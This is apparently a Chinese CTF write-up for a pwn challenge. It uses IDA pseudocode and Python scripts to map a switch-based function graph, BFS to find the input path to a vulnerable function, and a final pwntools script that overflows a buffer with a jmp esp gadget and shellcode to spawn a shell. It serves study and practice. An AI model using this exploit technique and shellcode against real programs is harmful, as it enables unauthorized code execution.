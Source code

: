 # 第一题

将程序拖入IDA分析：

![image-20250528202525188](第一题/image-20250528202525188.png)

![image-20250528202552011](第一题/image-20250528202552011.png)

可见是一个根据switch中的值跳转不同函数的逻辑，使用 `ctrl+f5` 导出所有IDA分析的伪代码，并去除多余的部分：

![image-20250528202838479](第一题/image-20250528202838479.png)

编写程序将其中函数包含根据switch中的值跳转不同函数的逻辑的全部提取成json文件：

```py
import re
import json
from tqdm import tqdm  # 调整导入顺序，集中放置

# 以latin-1编码读取文件，兼容二进制和文本混合内容
with open('pwn01.c', 'r', encoding='latin-1') as f:
    test_str = f.read()

# 从包含"080488CE"的位置截取字符串
start_index = test_str.find("080488CE")
test_str = test_str[start_index:] if start_index != -1 else ""  # 增加索引有效性检查

# 定义正则表达式模式（使用原始字符串避免转义问题）
pattern = r"int sub_[0-9A-F]+\(\)\n{(.|\n)*?switch \( sub_81097CF(.|\n)*?}"
regex = re.compile(pattern, re.MULTILINE)  # 使用编译对象提高效率

datas = []
# 使用tqdm显示进度条，明确迭代对象类型
for match_num, match in tqdm(enumerate(regex.finditer(test_str), start=1)):
    print(f"匹配项 {match_num}:", match)
    datas.append(match.group())

print("提取的匹配项列表：", datas)

# 写入JSON文件，确保中文正确显示
with open('pwn01.json', 'w', encoding='utf-8') as f:
    json.dump(datas, f, indent=4, ensure_ascii=False)
```

提取的json文件：

![image-20250528203730071](第一题/image-20250528203730071.png)

编写脚本，解析从 C 语言文件中提取的函数代码块，构建状态转移关系图，并将其存储为 JSON 文件：

```py
import json
import re

# 读取已保存的函数代码块数据
with open('pwn01.json', 'r') as file_obj:
    data_list = json.load(file_obj)

graph_maps = []


def parser_function(code_string: str) -> dict:
    """解析函数代码字符串，提取状态转移关系"""
    active_case = []
    result_dict = {}
    for single_line in code_string.splitlines():
        # 匹配函数声明行，提取当前函数名
        if "int sub_" in single_line:
            func_name_match = re.search(r"int (?P<sub_num>sub_[0-9A-F]+)\(\)", single_line)
            result_dict["from"] = func_name_match.group("sub_num")
        # 匹配case分支行，提取case编号（注意：原代码中"case ...u:"可能存在笔误，应为"case ...:"）
        elif "case" in single_line:
            case_num_match = re.search(r"case (?P<case_num>[0-9]+)u:", single_line)
            active_case.append(case_num_match.group("case_num"))
        # 匹配函数调用行，建立case到目标函数的映射
        elif "sub" in single_line:
            target_func_match = re.search(r"result = (?P<sub_num>.*)\(.*\)", single_line)
            for case_id in active_case:
                result_dict[f"to{case_id}"] = target_func_match.group("sub_num")
            active_case.clear()  # 清空当前case列表
        # 处理default分支，映射为case 6
        elif "default" in single_line:
            active_case.append("6")
    return result_dict


# 遍历每个函数代码块，执行双重解析
for data_item in data_list:
    # 第一次解析：通过正则表达式提取结构化to1-to6字段
    structure_match = re.search(
        r"int (?P<from>sub_[0-9A-F]+)\(\)\n{(.|\n)*?result = (?P<to1>.*)\(\)"
        r"(.|\n)*?result = (?P<to2>.*)\(\)"
        r"(.|\n)*?result = (?P<to3>.*)\(\)"
        r"(.|\n)*?result = (?P<to4>.*)\(\)"
        r"(.|\n)*?result = (?P<to5>.*)\(\)"
        r"(.|\n)*?result = (?P<to6>.*)\(\)(.|\n)*?}",
        data_item,
        re.MULTILINE
    )
    if structure_match:
        graph_maps.append(structure_match.groupdict())
    else:
        print("No match found")

    # 第二次解析：通过逐行解析提取case映射关系
    parsed_result = parser_function(data_item)
    graph_maps.append(parsed_result)

# 保存状态转移关系到新JSON文件
with open('pwn01_maps.json', 'w') as output_file:
    json.dump(graph_maps, output_file, indent=4, ensure_ascii=False)
```

提取到的状态转移关系：

![image-20250528204648396](第一题/image-20250528204648396.png)

只有`sub_81096BE`没有to的节点，在IDA中查看，确实是最终要攻击的函数：

![image-20250528221743707](第一题/image-20250528221743707.png)

编写BFS广度搜索没有from的节点：

```py
import json
with open('pwn01_maps.json', 'r') as f:
    maps = json.load(f)

nodes = set()
G = {}
for da in maps:
    # problem
    # print(da['from'])
    assert da['from'] not in nodes
    nodes.add(da["from"])

for da in maps:
    tos = [None] * 6
    for k, v in da.items():
        if k.startswith("to"):
            u = int(k[2:])
            assert 1 <= u <= 6
            tos[u - 1] = v
    G[da["from"]] = tos
    assert v == "sub_81096BE" or v in nodes, v

def bfs(G, start, target):
    queue = [start]
    visited = set()
    previous = {}
    while queue:
        node = queue.pop(0)
        if node == target:
            break
        if node in visited:
            continue
        visited.add(node)
        for i, neighbor in enumerate(G[node]):
            to = i + 1
            if neighbor is not None and neighbor not in visited:
                queue.append(neighbor)
                previous[neighbor] = (node, to)
    if node != target:
        return None
    path = []
    while node != start:
        path.append(previous[node][1])
        node = previous[node][0]
    path.reverse()
    return path

print(bfs(G, "sub_80488CE", "sub_81096BE"))
```

得到路径：

![image-20250528221814815](第一题/image-20250528221814815.png)

exp脚本:

```py
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
io = process("./pwn01")
io.send(b"""2
2
4
2
2
5
""")
# gdb.attach(io, api=True)
jmp_esp = 0x080a1077
shellcode = asm(shellcraft.sh())
io.send(flat({
    cyclic_find("daac"): [
        jmp_esp,
        shellcode
    ]
}))
io.interactive()

```

![image-20250528231758771](第一题/image-20250528231758771.png)

![image-20250528231739406](第一题/image-20250528231739406.png)
